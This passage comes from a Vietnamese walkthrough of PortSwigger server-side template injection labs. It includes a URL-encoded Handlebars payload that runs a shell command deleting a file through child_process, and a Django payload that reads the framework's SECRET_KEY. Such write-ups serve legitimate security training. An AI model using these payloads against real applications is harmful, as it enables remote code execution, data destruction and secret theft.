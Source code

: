 `%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d`

>Send lại và lần này payload đã được thực thi thành công!! Hoàn thành bài lab: ![image](https://hackmd.io/_uploads/S1k1trFLC.png)

# **5. Server-side template injection with information disclosure via user-supplied objects**
>This lab is vulnerable to server-side template injection due to the way an object is being passed into the template. This vulnerability can be exploited to access sensitive data.
To solve the lab, steal and submit the framework's secret key.
You can log in to your own account using the following credentials:
`content-manager:C0nt3ntM4n4g3r`
>![image](https://hackmd.io/_uploads/ByLUtBtUA.png)

>Đăng nhập vào tài khoản cho trước, bài này lại tiếp tục ta có thể chỉnh sửa nội dung bài post: ![image](https://hackmd.io/_uploads/SJqB9rF80.png)

>Thử thay payload `{{7*7}}` thì server trả về thông báo lỗi: ![image](https://hackmd.io/_uploads/SyJF9rt80.png)

>Từ thông báo lỗi, ta biết được server sử dụng template **Django** của Python. Tra trên Payload All The Thing, ta tìm được 1 payload để lấy key: 
>![image](https://hackmd.io/_uploads/HJKF3BYUC.png)

>Nhưng khi sử dụng lại không thấy có gì: ![image](https://hackmd.io/_uploads/SJX33HKUR.png)

>Tiếp tục tới xem thông tin debug: 
>![image](https://hackmd.io/_uploads/HJ8a2SFIC.png)

>Lần này, ta lại có thêm thông tin: 
>![image](https://hackmd.io/_uploads/BkBypBtUC.png)

>Thông thường trong ứng dụng Django, secret key sẽ được lưu tại biến `SECRET_KEY` trong object settings. Sử dụng payload `{{ settings.SECRET_KEY }}` và ta lấy được secret key cần tìm:
> ![image](https://hackmd.io/_uploads/ryeUTHFI0.png)

>Submit flag và hoàn thành bài lab: ![image](https://hackmd.io/_uploads/Hy6DpHKUR.png)

# **6. Lab: Server-side template injection in a sandboxed environment**
>This lab uses the Freemarker template engine. It is vulnerable to server-side template injection due to its poorly implemented sandbox. To solve the lab, break out of the sandbox to read the file `my_password.txt` from Carlos's home directory. Then submit the contents of the file.
You can log in to your own account using the following credentials:
`content-manager:C0nt3ntM4n4g3r`
>![image](https://hackmd.io/_uploads/S1DhJ8tLC.png)
